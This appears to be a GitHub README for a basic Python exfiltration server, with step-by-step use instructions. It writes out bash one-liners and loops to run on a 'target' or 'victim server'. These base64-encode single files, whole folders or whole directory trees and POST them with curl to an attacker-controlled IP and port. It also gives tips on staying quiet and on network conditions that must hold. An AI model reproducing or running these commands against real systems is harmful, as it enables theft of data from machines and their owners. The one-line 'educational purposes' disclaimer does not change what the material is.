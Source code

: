# Summary
Hello guys, here I share an basic Python script to use as an Exfiltration Server.<br>
Remember that this is not an professional tool, it's simple for fast usage.<br>
This script may be really noisy, so be sure that you already collected everything silent<br>
If you have an idea of adjusts, let me know! :)<br>

> [!!!] Please be informed that the script provided is solely for informational and educational purposes only.

# Instructions
1 - First of all, be sure of the port you want to open and edit on the server.py<br>
2 - Be sure that you are running the server using bash screen or tmux, to hold it opened<br>
3 - Run the command using Python3<br>
```bash
$ python3 server.py
```
4 - Now on the target, there are some ways to exfiltrate<br>

- Single File
```bash
$ cat file.txt | base64 -w 0 | curl -XPOST 'http://IP:PORT/post' --data-binary @-
```

- Multiple Files on the same folder
```bash
$ ls -p | grep -v / >> files_list
$ for x in $(cat files_list); do cat $x | base64 -w 0 | curl -XPOST 'http://IP:PORT/post' --data-binary @-; done
```

- Multiple Files on all the subfolders from the current dir
```bash
$ find ./ -type f >> files_list
$ for x in $(cat files_list); do cat $x | base64 -w 0 | curl -XPOST 'http://IP:PORT/post' --data-binary @-; done
```

# Requirements
Since we are talking of an HTTP Exfiltration, we should meet some requirements for the victim server:

- Free access to the internet
- No proxy (Some of them, may block)
- Curl installed